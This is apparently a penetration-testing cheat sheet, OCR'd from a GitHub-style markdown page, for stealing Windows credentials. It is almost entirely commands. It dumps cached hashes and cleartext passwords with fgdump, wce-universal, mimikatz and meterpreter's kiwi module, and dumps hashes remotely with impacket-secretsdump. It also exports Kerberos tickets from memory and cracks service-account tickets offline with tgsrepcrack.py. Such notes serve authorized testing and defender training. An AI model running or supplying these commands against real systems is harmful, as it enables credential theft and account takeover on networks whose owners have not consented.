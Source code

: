 
### Extracting Hashes in cache
-> fgdump  
```powershell
fgdump.exe
```
/usr/share/windows-binaries/fgdump/fgdump.exe

-> meterpreter  
```powershell
load kiwi
creds_msv
```

-> wce-universal (Clear Text password)   
```powershell
wce-universal.exe -w
```
/usr/share/windows-resources/wce/wce-universal.exe 

-> mimikatz
```powershell
.\mimikatz.exe
sekurlsa::wdigest -a full  
sekurlsa::logonpasswords
```

-> mimikatz - meterpreter  
```powershell
load mimikatz  
wdigest
```

### Extracting Hashes (Remote)
```powershell
impacket-secretsdump user:password@IP
```

## Service Account Attacks
-> Sow user tickets that are stored in memory
```powershell
./mimikatz.exe "sekurlsa::tickets"
```

-> Display all cached Kerberos tickets for the current user
```powershell
klist
```

-> Export service tickets from memory
```powershell
./mimikatz.exe "kerberos::list /export"
```

-> Wordlist Attack with tgsrepcrack.py to get the clear text password for the service account
```powershell
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <ticket.kirbi>
```
